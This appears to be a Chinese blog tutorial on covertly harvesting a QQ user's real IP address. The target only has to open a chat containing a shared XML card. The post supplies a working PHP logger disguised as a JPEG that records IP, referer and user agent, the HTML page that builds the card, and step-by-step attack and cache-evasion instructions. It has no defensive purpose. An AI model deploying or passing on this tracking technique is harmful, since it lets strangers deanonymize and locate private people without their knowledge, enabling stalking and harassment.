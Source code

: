 ```yaml
---
title: 利用QQ XML卡片获取真实IP
date: 2024-11-11 13:44:24
categories: [技术, 安全, 开源情报]
tags: [PHP]
---
```


<b>前言：</b>QQ提供了一个卡片功能：在QQ内打开一个网页后，点右上角分享可以把此网页分享到任意群聊或好友。这种分享和直接发链接的区别是，对方在聊天框看到的不是链接文本，而是一张包含了网站缩略图、站点标题和摘要的xml卡片。分享后，对方一旦点开聊天窗口窥屏，这个卡片（还有它身上的图片）就会被显示出来，等于此人访问了站点上的一张图片。基于此原理，我们有希望在对方完全不点击链接的情况下获取对方IP地址。

<!--more-->

## 一、攻击环境搭建

这里使用的攻击环境如下：

* <b>Ubuntu</b> 22.04 <b>VPS</b>
* <b>Apache</b> 2.4.52 (Ubuntu)
* <b>PHP</b> 8.1.2-1ubuntu2.18

为了创建一张QQ卡片，我们需要一个http网站来存放攻击脚本。方便起见，这里假设你已经有了一个配置好的Apache网页服务器。

首先在网站的根目录内创建攻击脚本iptest.php如下：

```php
<?php 

    //防注入函数
    function filter_dangerous_words($str){
        $str = str_replace("'", "‘", $str);
        $str = str_replace("\"", "“", $str);
        $str = str_replace("<", "《", $str);
        $str = str_replace(">", "》", $str);
        return $str;
    }
    
    //获取真实IP函数
    function getIP() {
        if (getenv('HTTP_CLIENT_IP')) {
        $ip = getenv('HTTP_CLIENT_IP');
        }
        elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $ip = getenv('HTTP_X_FORWARDED_FOR');
        }
        elseif (getenv('HTTP_X_FORWARDED')) {
        $ip = getenv('HTTP_X_FORWARDED');
        }
        elseif (getenv('HTTP_FORWARDED_FOR')) {
        $ip = getenv('HTTP_FORWARDED_FOR');
 
        }
        elseif (getenv('HTTP_FORWARDED')) {
        $ip = getenv('HTTP_FORWARDED');
        }
        else {
        $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
 
    //生成输出内容
    $ip = getIP();
    @$referer = $_SERVER['HTTP_REFERER']."\r\n";
    $ua = $_SERVER['HTTP_USER_AGENT']."\r\r";
    date_default_timezone_set("Asia/Shanghai");
    $date_ = date("Y.m.d,h:i:sa")."\r\n";
    
    //输出为hack.txt文件
    $hack = 'date: '.$date_.'ip:'.$ip."\r\n".'referer: '.$referer.'ua: '.$ua;
    $hack = filter_dangerous_words($hack);
    $op = fopen('hack.txt','a+');
    fwrite($op,$hack);
    fclose($op);
	  
	  //将此php文件伪装为一张jpg图片
	  //这样php返回的图片就会是同目录下的icon.jpg文件。
	$im = imagecreatefromjpeg("icon.jpg");
    header('Content-Type: image/jpeg');
    imagejpeg($im);
    imagedestroy($im);
 ?>
```

然后，为了生成卡片，我们还需要制作一个简单的网页iptest.html（与iptest.php、icon.jpg这两个文件处于同一个目录下），该网页的内容就是卡片上的内容：

```html
<!DOCTYPE html>
<html>
<head>
	<meta itemprop="name" content="XML卡片标题" />
	<meta itemprop="description" content="XML卡片描述" />
	<meta itemprop="image" content="文件路径，本例中为iptest.php?abcdefg" />
	<title>标题</title>
</head>
<body>
</body>
</html>
```

这里需要注意的是，iptest.php文件链接需要在其后带一串无效参数才能正常转换为短链接，此处用了abcdefg。因为qq分享机制的原因，导致直接分享出去的xml卡片会先将图片地址转换为腾讯的图床，所以探测链接不会生效。

在两个文件上传服务器之后，确保再上传一张命名为icon.jpg的图片文件就配置完毕了。

## 二、攻击方法

出于方便，攻击时不采用QQ插件发送方式，而采用直接分享生成的XML卡片。步骤如下：

1. 首先qq内打开iptest.html文件的链接，点击右上角，此时还未选择分享方式，未获取到ip；
2. 然后点击“好友”，到达选择好友界面，此时云端生成xml卡片，iptest.php文件链接被转换为腾讯短链，获取到了短链服务器的ip；
3. 选择好友，确认是否发送，本机预览消息，此时获取到本机ip；
4. 点击发送，聊天记录漫游到服务器，此时获取到腾讯服务器ip；
5. 目标点开聊天记录，自动读取了xml卡片，此时获取到目标ip。

上面说明获取顺序的时候，是按操作顺序写的，实际上获取到的服务器ip记录时间不一定按照你的操作顺序记录。但因为目标是最后一个收到的，所以最后一个基本就是目标ip。不排除特殊情况，需要随机应变。鉴于单次攻击会获取到多个ip，记得每一次探测后删除hack.txt文件或改名，以免下一次使用时搞混。

## 三、Q&A

<b>Q：</b>配置好攻击环境后能反复使用，以在hack.txt中记录多个目标ip吗？

<b>A：</b>不能。攻击链接是一次性的。

首先是所有的链接都会受到缓存的限制，所以一个iptest.php链接只能对一个目标生效一次，可以通过修改后面的无效参数（刚才的abcdef）来更新缓存。

其次就是某些时候iptest.html文件链接在qq内打开时会存在该页面本身被缓存的情况，导致iptest.php文件链接不会更新，缓存自然不会更新，所以无法成功获取ip，这种情况下hack.txt不会记录ip，所以比较好判断。可以通过更改iptest.html文件名来更新页面的缓存。
